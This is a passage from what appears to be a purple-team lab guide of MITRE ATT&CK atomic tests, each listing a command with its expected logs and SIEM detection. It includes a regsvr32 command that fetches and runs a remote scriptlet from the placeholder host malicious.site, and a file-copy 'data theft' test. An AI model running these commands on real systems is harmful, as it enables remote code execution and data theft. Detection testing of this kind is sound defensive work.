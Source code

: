 ### Expected Behavior
- Logs generated in Sysmon, Winlogbeat, or Windows Event Log
- Command-line execution, process creation, or network activity

### Detection
- SIEM rule triggered
- Alert mapped to MITRE ATT&CK: **T1049**

## ✅ T1005 – Data from Local System

### Description
Copy local file contents to another location.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
copy C:\sensitive_data.txt D:\stolen_data.txt
```

### Tool Used
CMD

### Expected Behavior
- Logs generated in Sysmon, Winlogbeat, or Windows Event Log
- Command-line execution, process creation, or network activity

### Detection
- SIEM rule triggered
- Alert mapped to MITRE ATT&CK: **T1005**

## ✅ T1218.005 – Regsvr32 Execution

### Description
Use regsvr32 to execute a remote script.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
regsvr32 /s /n /u /i:http://malicious.site/file.sct scrobj.dll
```

### Tool Used
Regsvr32
